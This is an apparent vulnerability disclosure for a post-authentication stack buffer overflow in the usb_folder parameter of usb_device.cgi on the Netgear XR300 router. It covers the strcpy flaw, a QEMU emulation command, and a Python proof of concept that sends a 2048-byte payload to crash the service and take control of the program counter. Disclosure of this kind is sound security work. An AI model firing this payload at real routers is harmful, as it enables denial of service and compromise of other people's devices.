 ## buffer overflow in usb_folder of usb_device.cgi



**Affected Product**: Netgear XR300 Router

**Affected Firmware Versions**:  XR300-V1.0.3.38_10.3.30 

**Official Firmware Resources** :(https://support.netgear.cn/doucument/detail.asp?id=2466)

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 

------

### **Vulnerability Details**

#### **Description**

A stack-based buffer overflow exists in the HTTPD service through the `usb_device.cgi` endpoint. The vulnerability occurs when processing POST requests containing the `usb_folder` parameter. Specifically:

1. The `sub_B7350` function handles requests to `usb_device.cgi`.
2. User-controlled `usb_folder` input is copied to buffer `v48` using `strcpy` without proper bounds checking.
3. The `v48` buffer is only **2 bytes** in size.
4. The service permits `usb_folder` values up to **0x800 bytes (2048 characters)**, creating an overflow condition 

This vulnerability requires authentication to exploit, making it a post-authentication vulnerability.

![image-20250529102627901](../res/image-20250529102627901-17484855899231.png)

![image-20250529102751673](../res/image-20250529102751673-17484856734152.png)



#### **QEMU Emulation Setup**

`sudo chroot . ./qemu-arm-static -E LD_PRELOAD="/nvram.so /lib/libdl.so.0"  -g 1234  ./usr/sbin/httpd`



![image-20250524123945917](../res/image-20250524123945917-17480615941411.png)





#### 

------

### **Proof of Concept (PoC)**



```
import requests
from requests.auth import HTTPBasicAuth

router_ip = "192.168.107.135"
url = f"http://{router_ip}/usb_device.cgi"
username = "1"
password = "1"
payload = 'A' * 2048

data = {
    "mode": "add_share",
    "usb_folder": payload,
    
}

headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
}

try:
    response = requests.post(
        url,
        data=data,
        headers=headers,
        auth=HTTPBasicAuth(username, password),

    )

    print(f"HTTP Status: {response.status_code}")
    print("Response Content:")
    print(response.text)

    if "Internal Server Error" in response.text:
        print("Server Error Detected")
    elif response.status_code == 500:
        print("Internal Server Error (500)")
    elif response.status_code == 0:
        print("Connection Reset")

except requests.exceptions.ConnectionError:
    print("Connection Failed - Potential Service Crash")
except requests.exceptions.RequestException as e:
    print(f"Request Error: {str(e)}")
except Exception as e:
    print(f"Unexpected Error: {str(e)}")

```



### Exploitation Results


The PoC demonstrates successful overflow of the `v48` buffer on the stack. As shown in Figure,  the overflow overwrites the return address, granting control of the PC register. This enables arbitrary code execution by crafting a ROP chain or shellcode payload.

![image-20250529103158297](../res/image-20250529103158297-17484859206053.png)



![image-20250524125258636](../res/image-20250524125258636.png)